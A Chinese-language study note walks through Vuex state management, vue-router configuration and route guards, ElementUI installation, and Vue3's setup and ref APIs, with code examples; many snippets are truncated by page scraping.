7mutations: {
JIA(state, payload) {
// state，是对配置项state做了响应式处理之后的对象
// value是传入的值
state.sum += payload
}
},关于
mutation命名的维护，可以单独放在store/mutationTypes.js文件中在组件中引入
state中的数据1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25<template>
<div>
<h2>{{$store.state.sum}}</h2>
<button @click="myDispatch">click</button>
</div>
</template>
<script>
export default {
data() {
return {
n: 1
}
},
mounted() {
console.log(this)
},
methods: {
myDispatch() {
this.$store.dispatch('jia', this.n)
}
}
}
</script>如果
aciton中没有其他的业务逻辑，组件中可以不调用dispatch方法，直接commit给mutation即可1
this.$store.commit('JIA', this.n) // 传入mutation类型，并根据需要传入其他参数
5.1.5.vuex开发者工具的使用
5.1.6.getters配置项
当state中的数据需要经过加工后再使用时，可以使用getters加工
类似与计算属性：
定义
1 | state: { |
使用
1 | <h2>{{$store.getters.bigSum}}</h2> |
5.1.7.mapState和mapGetters
背景：我们在使用store中的数据时，需要写一堆this.$store.state的代码，现在要简化这部分操作
虽然可以把每个值写到计算属性中去，但有更好的写法：
计算属性的写法：
1
2
3
4
5computed() {
vcSum() {
return this.$store.state.sum
}
}更好的写法如下：
5.1.7.1.mapState对象写法
组件中引入
mapState1
import {mapState} from 'vuex';
先看一下
mapState的基本使用和返回值1
2
3
4
5
6
7
8
9
10mounted() {
const x = mapState(
{
vcSum: 'sum',
vcName: 'name',
vcAge: 'age', // 属性值对应着state中定义的
}
)
console.log(x, typeof x) // mapState的返回值是一个对象，可以在computed中解构赋值一下，方便使用
},计算属性中，解构赋值
mapState的返回值- 得到的是
mappedState的函数，会去vuex中的state中取对应的值作为该函数的返回值
1
2
3
4
5
6
7computed: {
...mapState({
vcSum: 'sum',
vcName: 'name',
vcAge: 'age', // 相当于在computed中定义了三个变量
})
},- 得到的是
使用
1 | <template> |
在Vue的开发中工具中，显示在vuex bindings部分

5.1.7.2.mapState数组写法
上述的对象写法，虽然定义的变量，和state中定义的变量名称一致，但不能用对象的简写形式，因为值是字符串不是变量
1 | computed: { |
在vue中，把上述对象的形式，写成数组的形式，就相当于是简写形式了
生成相应计算属性的同时，也会去state中取值
1 | computed: { |
store对象的state属性中，有什么就可以写什么
同理mapGetters也是一样的写法：
1 | computed: { |
5.1.8.mapActions和mapMutations
优化dispatch和commit的写法，不用写this.$store.commit('xx')
之前的写法可以将commit写在methods里：
1 | methods: { |
现在可以通过mapMutations简写写法：
1 | import {mapMutations} from 'vuex'; |
相当于生成了如下代码：
1 | // 相当于生成了如下代码： |
需要在使用的时候传递参数，否则传递的默认参数是MouseEvent
1 | <button @click="myCommit(n)">click</button> |
上述是对象的写法，也可以写成数组的写法：
1 | methods: { |
使用
1 | <button @click="JIA(n)">click</button> |
同理，mapActions对应着dispatch
定义：
1 | import {mapActions} from 'vuex'; |
使用：
1 | <button @click="myDispatch(n)">click</button> |
值得注意的是，mapActions数组的写法，其实是将方法挂在的vc实例上，虽然看上去更为简单
但是在组件获取初始化数据，并且还是用action-types文件时，用对象写法会好些
5.1.9.多组件共享数据
在不同组件中使用vuex
5.1.10.vuex的模块化编码+namespaced
不同模块用到的共享数组，放在不同的对象中
1 |
|
使用modules配置项：
1 | export default new Vuex.Store({ |
模块化编码后，此时store里面有什么呢？
变化较大的是state对象，state中会包含各个自定义的模块
此时，之前利用mapState取数的写法，获取到的state对象直接就包含了属性名与属性值，但现在包含了moduleA、moduleB对象，里面才是属性名与属性值：

那么，此时模板怎么取到这个值呢？
store里的state身上，有什么我们就写什么
1 | computed: { |
1 | <h2>{{moduleA.name}}</h2> |
虽然可以取到数据了，但是写法有些麻烦，模板中我们只希望写{{name}}应该怎么写呢？
1 | <h2>{{name}}</h2> |
想要上述写法生效，定义module时，需要额外新增一个namespaced配置项并设置成true：
1 | const moduleA = { |
同时使用mapState取数时，指定模块名
1 | computed: { |
同理，模块化写法时，mapActions和mapMutations也要开启命名空间，在组件中使用时也要模块名
1 | methods: { |
如果指定了命名空间，使用this.$store.state的写法，需要多写一层加上命名空间：
取数：
state中：this.$store.state.moduleA.namegetters中：this.$store.getters['moduleA/name']
提交：
mutations中：this.$store.commit('moduleA/JIA', value)- 写成这样是因为底层设计就是这样，会找有没有
/分隔符
- 写成这样是因为底层设计就是这样，会找有没有
actions中：this.$store.dispatch('moduleA/add', value)
注意：
- 如果在没有加
namspaced命名空间的情况下，不同的模块还有相同的mutation，如果commit会都执行，不合理
- 如果在没有加
5.1.11.vuex模块化编码最佳实践
5.1.11.1.定义模块
不同模块都放在
store/modules文件夹下
不同的模块每个
state、action、getters和mutation都单独抽成一个js文件（放在一起代码太多时不好维护）为了便于识别，每个
state或其它，命名前可以加模块名，如homeState如下形式，分别定义4个
1
2
3
4
5const homeState = {
}
export default homeState后面使用
.default属性获取文件导出内容时时，并不会用到homeState这个名字，也可以这样写home/state.js1
2
3export default {
}这时只能根据文件名和路径名，才能判断这个文件是干嘛的了
在
modules同级目录，定义index.js整合所有的模块利用
webpack中require.context()方法获取文件路径、利用default属性获取模块导出内容moudles/index.js1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37// require.context()方法时webpack内置方法，直接用
const files = require.context('.', true, /\.js$/) // 搜索当前文件夹，及子文件夹中，以.js结尾的文件
const modules = {}
// keys()方法返回匹配的每个文件的相对路径，是个数组
files.keys().forEach(key => {
const path = key.replace(/\.\/|\.js/g, '') // 使用正则，把每个相对路径的 ./ 和.js 都替换成空字符串
// path只剩下 home/state 这种和自身 index 了
if (path == 'index') return // 路径是自己则不做任何处理
let [moduleName, type] = path.split('/')
if (!modules[moduleName]) {
modules[moduleName] = {// 开始构造导出对象
namespaced: true // 构建命名空间配置 {namespaced: true}
}
}
// 构建state/getters/actions/mutations配置项
// files()方法的返回值一个Module类型的对象，其default属性值，就是每个文件导出的结果值
modules[moduleName][type] = files(key).default //最终的modules对象，就是包含了每个配置项的模块对象
console.log(modules)
// moudles的打印结果 = {
// home: {
// namespaced: true,
// state:{},
// getters:{},
// actions:{},
// mutations:{}
// },
// search: {
// namespaced: true,
// state:{},
// getters:{},
// actions:{},
// mutations:{}
// }
// }
})
// 这个结果，和我们一开始学vuex模块化编码是一致的
export default modules;
在公共的
index.js中，解构赋值上面的modules对象，这样就不用一个一个导入一大堆模块了- 另外，
vue-router中不建议使用使用批量导入的方式，因为没有一个明确的规范
1
2
3
4
5
6
7
8
9
10
11
12import Vue from 'vue'
import Vuex from 'vuex'
import modules from './modules/index.js'
Vue.use(Vuex)
export default new Vuex.Store({
modules: {
...modules
}
})- 另外，
公共的状态在
store/index.js中维护，如websocket等
5.1.11.2.使用createNamespacedHelpers简化map*写法
取数的数量越多，这种写法越清爽，提交actions和mutations同理
test.vue
1 | <script> |
store/modules/home/actions.js
1 | import {reqCategoryList} from '@/api/home.js' |
5.1.11.3.actions和mutaions的types的统一管理
上一小节我们是直接提交的action，如果数据太多的话，不太好管理命名
-根据需求创建action-types.js和mutation-types.js
数据少的的话，都放在mutation-types.js里也不是不行
store/mutation-types.js
1 | // 所有的名字都列在这里 |
然后在用到的子模块的action.js或mutation.js中导入
home/action.js
1 | import {reqCategoryList} from '@/api/home.js' |
home/mutation.js
1 | import * as Types from '@/store/action-types' |
home/state.js
1 | const homeState = { |
在组件中使用
test.vue
1 | <template> |
看另外一个案例
index.vue
1 | <template> |
6.vue-router
路由就是一组key-value的对应关系，对于前端来说，key就是路径，value就是组件
多个路由，需要经过路由器的管理
6.1.相关理解
6.1.1.vue-router的理解
vue的一个插件库，专门用来实现SPA应用
6.1.2.对SPA应用的理解
- 单页
web应用（singel page web application, SPA） - 整个页面只有一个完整的页面
- 点击页面中的导航链接不会刷新页面，只会做页面的局部更新
- 数据需要通过
ajax获取
6.1.3.路由的理解
什么是路由？
- 一个路由就是一个映射关系（
key-value） key为路径，value可能是function或component
- 一个路由就是一个映射关系（
路由分类
- 后端路由：
- 理解：
value是function，用于处理客户端提交的请求 - 工作过程：服务器接收到一个请求时，根据请求路径找到匹配的函数来处理请求，返回响应数据
- 理解：
- 前端路由
- 理解：
value是component，用于展示页面内容 - 工作过程：当浏览器的路径发生改变时，对应的组件就会显示
- 理解：
- 后端路由：
6.2.基本路由
引入
vue-router，并配置路径和组件的映射关系router/index.js1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28import Vue from 'vue'
import VueRouter from 'vue-router'
import HomeView from '../views/HomeView.vue'
Vue.use(VueRouter) // Vue实例对象上，会多出一个$store对象
const routes = [ // 配置路径和组件的对应关系
{
path: '/',
name: 'home',
component: HomeView
},
{
path: '/about',
name: 'about',
// route level code-splitting
// this generates a separate chunk (about.[hash].js) for this route
// which is lazy-loaded when the route is visited.
component: () => import(/* webpackChunkName: "about" */ '../views/AboutView.vue')
}
]
const router = new VueRouter({
routes
})
export default routermain.js1
2
3
4
5
6
7
8
9
10
11
12
13import Vue from 'vue'
import App from './App.vue'
import router from './router'
import store from './store'
Vue.config.productionTip = false
new Vue({
router,
store,
render: h => h(App)
}).$mount('#app')store对象：

router-link：指定组件的跳转菜单原始
html中，我们使用a标签进行页面的跳转，如果现在想要实现点击切换路径，需要使用router-link标签，并配置一个to属性，值为路径。并且有一个active-class属性，点击时会有该属性值。router-link最终被渲染成a标签，所以需要有编程式导航，可以指定其他标签实现路由跳转1
<router-link active-class="active" to="/home">Home</router-link>
值得注意的是，
router-link是一个组件，当用来写导航栏时，并且导航栏还有个hover的背景色样式，导航栏之前快速切换的话，页面会卡顿，因为router-link是一个组件，要花时间来渲染当服务器数据返回后，要循环渲染很多
router-link（1000+），会消耗很多内存，不卡才怪了1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29<div class="all-sort-list2">
<!-- 一级菜单-->
<div class="item"
v-for="(c1, index) in categoryList"
:key="c1.categoryId"
:class="{'cur': currentIndex == index}"
@mouseenter="changeIndex(index)"
>
<h3>
<!-- v-for中不使用router-link声明式导航 -->
<a href="" @click="goSearch">{{c1.categoryName}}</a>
</h3>
<!-- 二、三级菜单 -->
<div class="item-list clearfix" :style="{display: currentIndex==index ? 'block': 'none'}">
<div class="subitem" v-for="(c2, index) in c1.categoryChild" :key="c2.categoryId">
<dl class="fore">
<dt>
<a href="" @click="goSearch">{{c2.categoryName}}</a>
</dt>
<dd>
<em v-for="(c3, index) in c2.categoryChild" :key="c3.categoryId">
<a href="" @click="goSearch">{{c3.categoryName}}</a>
</em>
</dd>
</dl>
</div>
</div>
</div>
</div>
使用声明式导航，也要注意
click事件不要直接绑定在渲染元素上，要利用事件的委派（冒泡），click事件写在就近的父元素上问题1：父元素里除了目标
a元素，还有其它元素，怎么确定点击的就是a标签呢1
2
3<div class="all-sort-list2" @click="goSearch">
<!-- ... -->
</div>解决方案：利用自定义属性
1
2
3
4<div class="all-sort-list2" @click="goSearch">
<!-- ... -->
<a :data-categoryName="c1.categoryName">{{c1.categoryName}}</a>
</div>
此时所有的
a标签，就有了data-categoryname属性，注意浏览器自动转成了小写利用
event.target获取到所有的子节点，然后带有data-categoryName属性的节点一定是a标签1
2let element = event.target
console.log(element)
那么，怎么拿到节点属性呢？使用
dataset属性，可以获取到节点的属性和自定义属性，1
2let dataset = event.target.dataset
console.log(dataset)
这是一个对象，解构赋值获取到即可
问题2：点击时要路由传参，怎么获得
v-for的参数呢可以再给不同级别的绑定另外的自定义属性，
category1id、category2id、category3id1
2
3
4
5
6<a :data-categoryName="c1.categoryName" :data-category1id="c1.categoryId">{{c1.categoryName}}</a>
<a :data-categoryName="c2.categoryName" :data-category2id="c2.categoryId">{{c2.categoryName}}</a>
<a :data-categoryName="c3.categoryName" :data-category3id="c3.categoryId">{{c3.categoryName}}</a>跳转的方法中，进行参数获取，并合并
1
2// 解构赋值
router-view：指定组件的呈现位置1
2
3
4
5
6
7
8
9<template>
<div id="app">
<nav>
<router-link to="/">Home</router-link> |
<router-link to="/about">About</router-link>
</nav>
<router-view/>
</div>
</template>使用注意：
- 目录
- 由路由器管理的组件称为路由组件，一般放在
src/pages目录 - 而之前的
components文件夹，一般放一般组件
- 由路由器管理的组件称为路由组件，一般放在
- 不用的路由组件，其实是被销毁了，可以用
beforeDestroy钩子验证；刚出来的路由组件，又会被重新挂载，可以用mounted钩子验证 - 路由组件的实例身上，会多出
$route和$router对象$route对应单个路由组件的信息，包含了配置的path等信息$router对应整个应用的路由器，只有一个，可以通过组件的$router属性获取到
- 目录
6.3.嵌套（多级）路由
使用children实现多级路由
1 | import Vue from 'vue' |
使用：
1 | <router-link to="/about/news">news</router-link><br/> <!-- 写路径时，要带着父亲的路径--> |
6.4.路由传参
6.4.1.query参数
6.4.1.1.字符串写法
我们再给Message组件嵌套一层路由
1 | { |
定义Detail组件
1 | <template> |
在Message组件中使用
1 | <template> |
效果：

现在不管是点message01，还是message02，路由一直是detail，内容也不会发生变化
我们希望，在路由跳转的时候，可以传递参数，并且将我们传递的参数展示出来
跳转路由的可以携带两种参数（query和params参数）
Detail组件挂载时，我们打印一下$route
query参数，在route对象身上
我们改写下<Message>组件的<router-link中的to的写法
1 | <router-link to="/about/message/detail?id=666&title=hello">{{m.title}}</router-link> |
此时query属性，会添加我们写的路径的查询参数（转为对象的形式）：

很明显，我们不能写死，我们使用单向绑定，结合模板字符串，将Message组件中的数据，作为参数传递给Detail组件
1 | <router-link :to="`/about/message/detail?id=${m.id}&title=${m.title}`">{{m.title}}</router-link> |
Detail组件中，利用query属性接收相应的值
1 | <template> |

但是，上面的写法太恶心，有简易写法
6.4.1.2.对象写法
1 | <router-link :to="{ |
6.4.1.3.命名路由
给路由起个名字，使用name配置项
1 | { |
那有啥用呢？
我们之前使用to的对象写法时，一层层路径，写法还是有些繁琐，配置了name之后，就可以直接写name值了
1 | <router-link :to="{ |
同理，一级路由也可以是如下写法（注意要加冒号），但没必要
1 | <router-link :to="{name:'guanyu'}">About</router-link> |
6.4.2.params参数
6.4.2.1.字符串写法
1 | <router-link :to="`/about/message/detail/${m.id}/${m.title}`">{{m.title}}</router-link> |
同时使用占位符，配置detail组件path项
1 | children: [ |
并在Detail组件中，使用params取数
1 | <li>消息编号：{{$route.params.id}}</li> |
效果如下：

6.4.2.2.对象写法
1 | <router-link :to="{ |
注意，如果是params的对象写法，只能用name，不能用path
6.4.3.路由的props配置
我们在Detail组件中，可以通过$route.params.id拿到路由的位置参数，但是每拿一次都要写这么多，虽然可以通过计算属性来封装，但还是有些麻烦
可以通过路由的props配置项，让路由组件更方便的收到参数
6.4.3.1.props值是对象
router/index.js
1 | children: [ |
Detail.vue
1 | <li>props传值：{{id}}</li> |
Detail组件中，可以通过props拿到路由的传值，效果：

6.4.3.2.props值是布尔值
前提：<router-link>是以params传参的
router/index.js
1 | children: [ |
Detail.vue
1 | <li>props传值：{{id}} - {{title}}</li> |
Detail组件中，可以通过props拿到路由的传值，效果：

6.4.3.3.props值是函数
router/index.js
1 | children: [ |
Detail.vue
1 | <li>props传值：{{id}} - {{title}}</li> |
Detail组件中，可以通过props拿到路由的传值，效果：

props的函数形式，会有一个$route参数，就是组件的$route属性
1 | children: [ |
我们知道，$route是一个对象，可以用对象的解构赋值简写：
1 | props({params}) { // 或者是query，取决于传参的方式 |
由于query还是对象，可以用对象解构赋值的连续写法：
1 | props({params: {id ,title}}) { // 或者是query，取决于传参的方式 |
再使用对象的简写形式：
1 | props({params: {id ,title}}) { // 或者是query，取决于传参的方式 |
6.4.3.4.小结：路由的props配置
1 | { |
6.4.4.router-link的replace属性
这一小节，我们关注一下，路由对浏览器历史记录的影响
浏览器使用栈结构来保存历史记录，使用<router-link>相当于push操作，一条一条往栈结构中写数据
还有replace操作，替换掉当前的历史记录
- 作用：控制路由跳转时操作浏览器历史记录的模式
- 浏览器的历史记录有两种写入方式：分别是
push和replace，push是追加历史记录，replace是替换当前记录。路由跳转时默认为push - 如何开启
replace模式：<router-link replace ...>News</router-link>
6.5.编程式路由导航
6.5.1.使用方法实现路由跳转
$router是VueRouter的实例对象，它身上真正有用的方法，是放在原型对象上的
push和replace方法同样可以实现路由的跳转
1 | <template> |
back方法对应浏览器的回退，forward方法方法对象浏览器的前进，这两个方法可以操作浏览器的历史记录
go方法接收一个数字，如果是正数n，表示往前连续走n步，后退的话用-n表示
路由重复跳转，报redundant navigation
解决redundant navigation问题，在router/index.js中重写push和replace方法
1 | ... |
样例：三级菜单跳转携带参数
例一：三级菜单栏的路由跳转，传递不同的参数
1 | let {categoryname, category1id, category2id, category3id} = event.target.dataset |
用在不同地方的统一组件，在路由跳转时，要明确有没有参数合并的需求，
因为一个地方可能是
query参数，另一个地方可能是params参数A组件用到search组件，是params参数1
2
3
4
5
6
7
8
9
10
11
12goSearch() {
let location = {
name: "search",
params: {
keyword: this.keyword || undefined,
},
}
if(this.$route.query) {
location.query = this.$route.query
}
this.$router.push(location)
}B组件也用到search组件，是query参数1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21goSearch() {
let {categoryname, category1id, category2id, category3id} = event.target.dataset
if (categoryname)
let location = {name: 'search'}
let query = {categoryName: categoryname}
if (category1id) {
query.category1id = category1id
} else if (category2id) {
query.category2id = category2id
} else {
query.category3id = category3id
}
// 合并参数
location.query = query
if(this.$route.params) {
location.params = this.$route.params
}
this.$router.push(location)
}
},当
A、B两个组件出现在同一页面时，就要考虑先后查询的问题（查询参数是否需要合并）
6.5.2.缓存路由组件
如果一个组件中，有输入框，切换后组件会销毁，再重新点回去组件会重新渲染，现在希望保留输入框的值
我们需要加一个配置项keep-alive，包裹router-view，那么加在哪个组件里呢？看需求
先给News组件添加input
News.vue
1 | <template> |
我们希望在切换News组件和Message组件时，input值仍存在，在这两个组件的父组件中使用keep-alive
About.vue
1 | <router-link to="/about/news">news</router-link><br/> |
此时News组件和Mesage组件在切换时就都不会被销毁了
如果只想缓存News组件，可以使用include配置项，值为组件中的name配置项
1 | <keep-alive inclue="News"> |
如果是缓存多个组件，可以使用数组写法
1 | <keep-alive :inclue= "['News', 'Message']"> |
注意：如果两个路由组件中，用到了一个公共的组件，而这个公共组件又请求了服务器数据，那么这两个路由组件在来回切换时，就会不断重复的发请求，因为路由组件会不断的销毁创建
一般这种情况会把发送请求的放在App组件中，不会用keep-alive的，这是个误区，你用keep-alive至少还是会发两次请求。
6.5.3.两个新的生命周期钩子
如果被缓存的组件，需要做销毁定时器的操作，那么不能在beforeDestroy生命周期中编写代码
activated- 被缓存的组件激活了
deactivated- 被缓存的组件失活了
6.5.4.全局前置_路由守卫
这是一个权限的问题，每次路由切换的时候，都要做一个校验
怎么做这个校验呢？
router/index.js暴露VueRouter实例之前，给其加一个前置路由守卫，即调用该实例对象上的beforeEach方法
调用时机：
- 初始化的时候被调用
- 每次路由切换之前被调用
1 | const router = new VueRouter({ |
如果不加参数，切换路由前，虽然执行了这个钩子，但是路由组件没有被渲染
因为还要传递三个参数，可以打印看下
to：目标路由from：源路由next：放行，如果不写，则不会继续往下走了
1 | router.beforeEach((to, from, next) => { |
从home切换到about

我们可以根据fullPath、path或name属性值来判断，是否执行next
1 | router.beforeEach((to, from, next) => { |
此时从home组件跳转到about组件之前，就会弹窗提示，并且路由也不会发生变化

但是如果有多个页面都需要判断，如想要向News和Message添加权限，上述的to.path写法就显得有些繁琐了
可以在router/index.js中，在需要校验的组件中，新增配置项meta，用于表示是否需要权限校验
1 | children: [ |
我们先关掉之前对about组件的鉴权，然后点击about/news，可以看到to的身上多了isAuth属性值

利用该属性进行判断是否需要鉴权
1 | router.beforeEach((to, from, next) => { |
此时想从News跳转到Message组件，就会提示没有权限了

6.5.5.全局后置_路由守卫
我们按照前置路由守卫的写法，先测试看一下
1 | router.afterEach((to, from, next) => { |
调用时机：
- 初始化的时候被调用
- 每次路由切换之后被调用
后置路由守卫，是没有next的，因为路由已经切换完了，还要next干嘛，所以只写两个参数即可
那么，没有next，还守卫啥呢？
实际开发中，不同栏目切换时，希望浏览器页签标题，和目录名对应上
可以在meta中自定义路由元信息title，在后置路由守卫中，进行处理
router/index.js
1 | ... |
1 | router.afterEach((to, from) => { |
为啥不能在前置路由守卫中处理
对于没有权限的路由，放在前置路由中处理
document.title的话，直接就修改了，但事实是页面并没有跳转，如下，message组件没有权限访问，由于是在前置路由守卫中处理的，页签标题仍会修改除非说每次
next之前，都要修改一次，就显得很繁琐
希望正确跳转之后，才执行的操作，可以放在后置路由守卫中
6.5.6.独享路由守卫
需求：指向对单独的一个路由，作限制
在route规则中，新增配置项beforeEnter: (to, from, next) => {}（前置独享路由守卫），注意没有后置独享路由守卫，可以和后置路由守卫配合使用
然后将之前的路由守卫的规则，放入函数体即可
1 | { |
6.5.7.组件内路由守卫
组件内的路由守卫，没有前置后置的概念
只有进入该组件时，和离开该组件时的概念
组件内新增配置项：
beforeRouterEnter(to, from, next) {}通过路由规则，进入当前组件时，被调用
可以在其中逻辑控制
1
2
3
4
5
6
7
8beforeRouteEnter(to, from, next) {
if (to.meta.isAuth) {
alert('该页面无权查看')
} else {
next()
}
console.log('进入Message组件之前')
},
beforeRouterLeave(to, from, next){}通过路由规则，离开当前组件时，被调用
1
2
3
4beforeRouteLeave(to, from, next) {
console.log('离开Message组件之前')
next()
}
注意，一定是通过路由规则，加载组件才会被调用，如果是直接引入组件，则不会被调用
应用场景：如果组件里面想要单独写独有的进入或离开的逻辑，可以借助组件内路由守卫
6.5.8.history模式和hash模式
路由器的工作模式，通过配置项mode来指定
1 | const router = new VueRouter({ |
hash模式：这里的
hash和数据加密没有任何关系，就是前端自己在玩的一个东西从
#号开始到最后，都作为hash值的一部分，不会作为http请求路径的一部分vue-cli默认使用的是hash模式
history模式：没有
#号所有的路径，都会作为
http请求路径的一部分直接使用
history模式的问题- 项目上线后，一开始点是没有问题，但是只要一刷新，前端路由的路径，就会向后台服务器请求资源了，报404错误
解决方案
需要后端配合
nodejs后台使用
connect-history-api-fallback中间件，专门用于解决nodejs后台处理history模式出现的404问题安装：
npm i connet-history-api-fallback在静态资源之前使用：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17const express = require('express')
const history = require('connect-history-api-fallback')
const app = express()
app.use(history()) // 在静态资源之前使用中间件
app.use(express.static(__dirname + 'static'))
app.get('/person', (req, res) => {
res.send({
name: 'tom',
age: 18
})
})
app.listen(5005, (error) => {
if(!err) console.log('服务器启动成功!')
})
python后台java后台golang后台
或者可以配置
nginx代理
小结：
- 对于一个
url来说，什么是hash值？#号及其后面的内容就是hash值
hash值不会包含在http请求中，即：hash值不会带给服务器hash模式：- 地址中永远带着
#号，不美观 - 若以后将地址通过第三方手机
app分享，若app严格校验，则地址会被标记为不合法 - 兼容性较好
- 地址中永远带着
history模式：- 地址干净，美观
- 兼容性和
hash模式相比，略差 - 应用部署上线时，需要后端人员支持，解决刷新页面服务端404的问题
7.Vue UI组件库
组件库定位：
如果是高度定制化的页面，结构和样式只能一点点手写
如果是能用进行，最好页面不要太丑，就可以用
UI组件库
7.1.移动端常用UI组件库
VantCube UIMint UINUTUI
7.2.PC端常用UI组件库
Element UIIView UI
7.3.ElementUI的基本使用
安装
官网：https://element.eleme.io/#/zh-CN/component/installation
1 | npm i element-ui -D |
当前项目是基于vue-cli5安装的vue2的项目，提示core-js版本过低
1 | npm WARN deprecated core-js@2.6.12: core-js@<3.4 is no longer maintained and not recommended for usage due to the number of issues. Because of the V8 engine whims, feature detection in old core-js versions could cause a slowdown up to 100x even if nothing is polyfilled. Please, upgrade your dependencies to the actual version of core-js. |
但实际上package.json中的core-js版本是3.8.3，可能是element-ui中用到的版本吧，暂时跳过这一问题
引入
全量引入（不推荐）
main.js
1 | import Vue from 'vue' |
按需引入
借助 babel-plugin-component，我们可以只引入需要的组件，以达到减小项目体积的目的。
main.js
1 | npm install babel-plugin-component -D |
然后，将 .babelrc 修改为：
1 | { |
如果没有.babelrc，应该有babel.config.js
原来的内容
1 | module.exports = { |
修改如下：
1 | module.exports = { |
使用
全量引入使用
直接使用
看文档上哪个适合用的，复制然后改吧改吧
1 | <input type="text"> |

按需引入使用
接下来，如果你只希望引入部分组件，那么需要在 main.js 中写入以下内容：
1 | import Vue from 'vue' |
值得注意的是，组件库的配置和脚手架的配置要合并起来的，如果脚手架更新了，但组件库的配置写法没更新，就会有问题
很明显的一个例子就是，.babelrc文件都换成了babel.config.js
如上写法，会提示如下错误：

按照提示，安装下对应的包
1 | npm i babel-preset-es2015 -D |
虽然安装成功了，但人家babel-preset-es2015更新改名了
1 | [root@VM-4-12-centos test2]# npm i babel-preset-es2015 -D |
再重新启动下项目，报如下错误

由于人家es2015改名了，所以配置文件得修改：
1 | module.exports = { |
造成这些问题的原因在于，element没有及时更新
如果不说怎么改，要真想解决这个问题，需要研究下babel-plugin-component文档，看看目前针对最新的脚手架，它的配置是怎么样的
按需引入后的资源大小

8.Vue3
8.1.Vue3快速上手
8.1.1.Vue3简介
- 2020年9月18日，
Vue.js发布3.0版本，代号：One Piece（海贼王） - 耗时2年多，2600+次提交、30+个RFC、600+次PR、99位贡献者
github上的tags地址：https://github.com/vuejs/core/tree/v3.2.36
8.1.2.Vue3带来了什么
8.1.2.1.性能的提升
- 打包大小减少
41% - 初次渲染快
55%，更新渲染快133% - 内存减少
54% - …
8.1.2.2.源码的升级
- 使用
Proxy代替defineProperty实现响应式 - 重写虚拟
dom的实现和tree-shaking - …
8.1.2.3.拥抱TypeScript
Vue3可以更好的支持tree-shaking
8.1.2.4.新特性
Composition API（组合式API）setup配置ref和reactivewatch和watchEffectprovide和inject- …
- 新的内置组件
FragmentTeleportSuspense
- 其他改变
- 新的生命周期钩子
data选项应始终被声明为一个函数- 移除
keyCode支持作为v-on的修饰符 - …
8.2.创建Vue3工程
8.2.1.使用vue-cli创建
官方文档：https://cli.vuejs.org/zh/guide/creating-a-project.html#vue-create
1 | ## 查看@vue/cli版本，确保@vue/cli版本在4.5.0以上 |
8.2.2.使用vite创建
官方文档：https://v3.cn.vuejs.org/guide/installation.html#vite
什么是vite？新一代前端构建工具
优势：
开发环境中，无需打包操作，可快速的冷启动
轻量快速的热重载（
HMR）真正的按需编译，不再等待整个应用编译完成
传统构建与
vite构建对比图

1 | # npm 6.x |
8.2.3.分析工程结构
分析的是vue-cli方式创建的目录结构
src/main.js
1 | import { createApp } from 'vue' |
import { createApp } from 'vue'- 引入的不再是
Vue构造函数了，而是一个名为createApp的工厂函数（无需通过new关键字调用）
- 引入的不再是
createApp(App).mount('#app')1
2
3
4
5
const app = createApp(App)
console.log(app)
app.mount('#app')创建应用实例对象，
app类似于vue2中的vm，但app比vm更轻
注意，并不兼容之前的
new Vue的写法，import Vue from 'vue'时，Vue时undefined
App.vue
template中可以没有根标签
8.2.4.安装vue3对应的开发者工具
直接去官网：https://devtools.vuejs.org/guide/installation.html
8.3.常用Composition API
官方文档：
8.3.1.拉开序幕的setup
理解：
Vue3中的一个新的配置项，值为一个函数setup是所有Composition API（组合API）表演的舞台组件中所用到的：数据，方法等等，均要配置在
setup中setup函数的两种返回值若返回一个对象，则对象中的属性、方法，在模板中均可以直接使用。（重点关注）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32<template>
<h1>我是App组件</h1>
<h2>姓名： {{name}}</h2>
<h2>姓名： {{age}}</h2>
<button @click="sayHello">click</button>
</template>
<script>
export default {
name: 'App',
setup() {
let name = 'sai'
let age = 18
function sayHello() {
alert(`你好呀，${name},今年我${age}岁了`)
}
return {
name,
age,
sayHello
}
}
}
</script>
<style>
</style>
若返回一个渲染函数，则可以自定义渲染内容（了解）
- 模板里的内容会被渲染函数的返回内容覆盖
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25<template>
<!-- 内容会被覆盖 -->
<h1>我是App组件</h1>
</template>
<script>
import {h} from 'vue'
export default {
name: 'App',
setup() {
// return () => {
// return h('h1', 'sai')
// }
// 简写
return () => h('h1', 'sai')
}
}
</script>
<style>
</style>
注意点：
- 尽量不要和
vue2.x配置混用vue2.x配置（data、methods、computed…）中可以访问到setup中的属性和方法- 但在
setup中不能访问到vue2.x配置（data、methods、computed…） - 如果有重名，
setup优先
setup不能是一个async函数，因为返回值不再是return的对象，而是promise，模板中看不到对象中的属性（后期学到了Suspence，其实是可以的）
- 尽量不要和
8.3.2.ref函数
vue2中的ref是一个标签属性，vue3中多了一个同名的函数
8.3.2.1ref函数处理基本数据类型
1 | <template> |
这个案例中，我们修改了数据，但是页面上并没有更新

因为vue并没有监视到数据的变化，上述方式定义的数据并不是响应式数据
如何把普通的数据，变成一个能被vue监测到的响应式数据呢？
借助ref函数
1 | <script> |
那么直接能这样改吗？不能！！！上述代码执行后，点击修改按钮页面仍然没有变化
为啥咧？因为我们改的地方不对！！
我们先注释掉修改的两行代码，直接打印被ref包裹的name和age

RefImpl：Refenrence Implement（引用的实现），表示一个引用实现对象RefImpl对象也是通过Object.defineProperty实现数据响应式的- 类比于
vue2的_data身上的属性，为了便于读写，给了vm一份属性 RefImpl对象的原型对象上定义着getter和setter，然后又给了RefImpl对象一份属性
- 类比于
读写数据会根据原型链查找
getter和setter读数据
1
2<h2>姓名：{{name}}</h2>
<h2>年龄：{{age}}</h2>插值语法中，不用写成
name.value和age.value，vue在解析模板读取数据时，如果变量是一个RefImpl引用实现对象，则会自动读取其value的属性值- 读数据，会调用引用实现对象的原型对象的
getter
- 读数据，会调用引用实现对象的原型对象的
写数据
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23<script>
import {ref} from 'vue'
export default {
name: 'App',
